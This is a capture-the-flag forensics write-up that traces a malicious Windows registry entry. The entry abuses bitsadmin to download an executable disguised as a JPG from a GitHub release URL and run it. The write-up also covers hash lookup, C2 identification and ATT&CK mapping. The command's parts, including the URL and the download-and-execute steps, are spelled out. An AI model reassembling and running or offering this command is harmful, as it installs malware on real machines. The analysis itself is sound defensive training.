

Challenge Scenario
Description: In this challenge, we're provided with a Windows Registry file (.reg) that contains evidence of malicious activity. Our goal is to identify the malicious command, analyze the downloaded payload, and determine the Command & Control (C2) infrastructure used by the attacker.
Initial Investigation
Step 1: Opening the Registry File
We start by opening the .reg file in a text editor (Notepad++ or any text editor) to examine its contents. Registry files are plain text and contain Windows registry keys and their values.
Method: Manual analysis and string searching
Step 2: Searching for Malicious Commands
After examining the registry file, we search for suspicious commands. Common indicators include:
- Command-line utilities (cmd.exe, powershell.exe, bitsadmin, etc.)
- Download commands
- URLs or IP addresses
- File execution commands
🚨 Malicious Command Discovered!
After searching through the registry file, we found this highly suspicious command:
Breaking Down the Command
1. cmd.exe /c - Executes a command and then terminates
2. bitsadmin - Windows utility for downloading files (often abused by attackers)
• /transfer windos - Creates a download job named "windos"
• /download /priority high - Downloads with high priority
3. Source URL: https://github.com/0xS1rx58/Update/releases/download/app/image.jpg
• Pretends to be an image file (.jpg)
• Actually downloads malicious executable
4. Destination: C:\Users\User\AppData\Local\Temp\w1n.exe
• Saves in the Temp directory as w1n.exe
5. Execution: & "C:\Users\User\AppData\Local\Temp\w1n.exe"
• Immediately executes the downloaded file
This is a classic Living Off The Land (LOTL) technique where attackers abuse legitimate Windows utilities (bitsadmin) to evade detection.
Malware Analysis
Step 3: Downloading the Malicious File
Now that we have the URL, let's download the file and analyze it. ⚠️ Warning: This should only be done in a safe, isolated environment!
File Type Analysis
Despite the .jpg extension, let's check what this file actually is:
Step 4: Hash Calculation and VirusTotal Analysis
Let's calculate the file's hash to identify it:
Now we search this hash on VirusTotal to gather intelligence about this malware.
• File is flagged as malicious by multiple antivirus engines
• Shows network connections to C2 infrastructure
• Reveals the C2 IP address and port in behavior analysis
Step 5: Identifying the Malware Technique
The technique of hiding a malicious executable inside what appears to be an image file is a well-known attack method. Let's research this technique.
Google Search
Searching for "malicious exe in image file" or "exe disguised as jpg" reveals this is related to:
Polyglot Files / File Smuggling
This technique involves:
- Disguising executables as image files
- Evading basic file type filtering
- Bypassing web filters and email scanners
- Social engineering - users trust image files more than .exe files
Step 6: Extracting C2 Infrastructure
From the VirusTotal behavior analysis tab, we can identify the Command & Control (C2) server the malware communicates with.
VirusTotal Behavior Tab Analysis
Navigate to the Behavior or Network tab on VirusTotal to find:
- IP addresses contacted by the malware
- Ports used for communication
- DNS requests made
- HTTP/HTTPS connections
IP Address: [C2_IP_ADDRESS]
Port: [C2_PORT]
This information is crucial for network defenders to block malicious traffic and prevent communication with the attacker's infrastructure.
Solution Summary
Complete Attack Chain
Let's review the complete attack chain we uncovered:
• Malicious registry entry executes command via cmd.exe
2. Download Phase
• Abuses bitsadmin (legitimate Windows utility) to download payload
• Downloads from GitHub to appear legitimate
• File disguised as image.jpg to evade detection
3. Execution Phase
• Saves payload as w1n.exe in Temp directory
• Immediately executes the malware
4. C2 Communication
• Establishes connection to attacker's C2 server
• Allows remote control and data exfiltration
Key Findings
bitsadmin
Download Tool
GitHub
Hosting Platform
Polyglot
Evasion Technique
C2
Remote Control
Challenge Complete! 🎉
We successfully analyzed the registry file, identified the malicious command, downloaded and analyzed the malware, identified the attack technique, and extracted the C2 infrastructure information!
Key Takeaways
What We Learned
- Registry files contain valuable forensic evidence: Even simple .reg files can reveal complete attack chains.
- Living Off The Land (LOTL) techniques: Attackers abuse legitimate Windows utilities like bitsadmin to evade detection.
- File extension deception: Never trust file extensions - always verify actual file types.
- GitHub as malware hosting: Attackers use legitimate platforms to distribute malware and bypass security filters.
- VirusTotal is invaluable: Hash lookups provide immediate intelligence about malware capabilities and infrastructure.
- Behavior analysis reveals C2: Dynamic analysis shows network communications that static analysis might miss.
Tools & Techniques
Registry Forensics
- Text Editor (Notepad++)
- Registry Analysis
- String Searching
File Analysis
- file command
- sha256sum
- Hash calculation
Threat Intelligence
- VirusTotal
- Behavior Analysis
- Network IOCs
OSINT
- Google Search
- GitHub Analysis
- Technique Research
Attack Techniques Identified
MITRE ATT&CK Framework Mapping
Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads.
T1036 - Masquerading
Disguising executables as image files to evade detection.
T1105 - Ingress Tool Transfer
Downloading tools or files from external systems into a compromised environment.
T1071 - Application Layer Protocol
Using HTTP/HTTPS for C2 communication to blend with normal traffic.
Indicators of Compromise (IOCs)
Explore More Challenges
Check out other forensics writeups from QnQSec CTF 2025.